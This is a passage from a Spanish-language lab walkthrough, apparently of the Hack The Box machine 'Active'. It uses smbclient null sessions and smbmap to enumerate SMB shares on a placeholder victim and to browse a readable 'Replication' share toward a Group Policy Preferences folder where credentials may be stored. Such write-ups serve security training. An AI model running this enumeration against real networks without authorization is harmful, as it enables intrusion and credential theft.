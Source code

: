 Por lo que lo añadiremos a nuestro archivo `hosts` de la siguiente forma:

```shell
nano /etc/hosts

#Dentro del nano
<IP_VICTIM>         active.htb
```

Lo guardamos y probaremos a listar los recursos compartidos de `SMB` con un `NullSesion` ya que hay un puerto `445` activo.

### SMB Enumeracion

```shell
smbclient -L <IP_VICTIM> -N
```

Y podremos listar los recursos compartidos de `SMB`, ahora veremos si nos deja ver los permisos de dichos recursos compartidos sin ninguna contraseña.

```shell
smbmap -H <IP_VICTIM>
```

Y en este caso si nos dejara, por lo que veremos que hay un recurso compartido con estas caracteristicas:

```
Replication           READ ONLY
```

Veremos que solo podemos leer el recurso compartido llamado `Replication` por lo que nos podremos conectar a el sin ningun tipo de autenticacion.

```shell
smbmap -H <IP_VICTIM> -r Replication
```

Y esto nos dara la informacion de lo que contiene dicho recurso compartido, imaginemos que vemos que hay un archivo llamado `./Replication` y un directorio llamado `active.htb`, por lo que veremos que contiene de la siguiente forma.

```shell
smbmap -H <IP_VICTIM> -r Replication/active.htb
```

Vemos que hay mas carpetas, por lo que ya tendriamos que ir una por una investigando.

Pero imaginemos que la ruta donde esta la posible vulnerabilidad es la siguiente:

```
Replication/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups
```

Pues con el siguiente comando veremos que hay en `Groups`.

```shell
smbmap -H <IP_VICTIM> -r Replication/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups
```

